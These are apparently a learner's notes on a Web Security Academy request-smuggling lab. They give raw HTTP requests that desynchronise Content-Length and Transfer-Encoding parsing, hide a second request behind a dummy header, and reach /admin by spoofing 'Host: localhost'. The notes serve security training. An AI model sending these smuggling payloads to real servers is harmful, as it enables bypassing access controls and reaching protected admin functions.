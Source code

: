 ```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Transfer-Encoding: chunked

3
abc
0

GET /shdkjflhsakljfhsa HTTP/1.1
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Try adding a Request header such as `Jonny: x`, NOT followed by a carriage return. When the normal request is appended that starts with a POST, it is appended and fixes the double request method issue:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

3
abc
0

GET /fhdsjkfhsadlkj HTTP/1.1
Jonny: x
```

Try sending and then the normal request. If it returns a Not Found, it confirms an attack for the resource that does not exist is working:

![[Jonny Not Found.png]]

Try changing the requested resource to `/admin`, sending it and re-sending the normal request - an unauthorized message may appear that only exists for local users. In that case, it can be tricked via other headers such as `Host: localhost`:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Jonny: x
```
